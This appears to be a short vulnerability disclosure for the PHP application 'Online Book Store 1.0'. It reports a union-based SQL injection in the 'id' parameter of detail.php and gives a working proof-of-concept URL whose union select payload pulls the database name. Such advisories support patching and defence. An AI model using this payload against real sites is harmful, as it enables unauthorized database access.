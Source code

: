 # Vulnerability title: Online Book Store 1.0 - 'id' SQL Injection  
# Vendor Homepage: https://www.sourcecodester.com/php/14383/online-book-store.html  
# Software Link: https://www.sourcecodester.com/download-code?nid=14383&title=Online+Book+Store  
# Version: 1.0  
# Tested On：Windows 10  
# Vulnerability description：  
This parameter "id" is vulnerable to Union-Based blind SQL injection in this path "/online%20book%20store/detail.php?id=1" that leads to retrieve all databases.
# Vulnerability recurrence：
1. http://path/Online%20Book%20Store/detail.php?id=-1%20%20union%20select%201,2,3,4,database(),6,7,8,9,10,11
![image](https://github.com/TCSWT/Online-Book-Store/blob/main/001.png)   
2.SQL command  
![image](https://github.com/TCSWT/Online-Book-Store/blob/main/002.png)  
# Vulnerability file:detail.php
![image](https://github.com/TCSWT/Online-Book-Store/blob/main/003.png) 
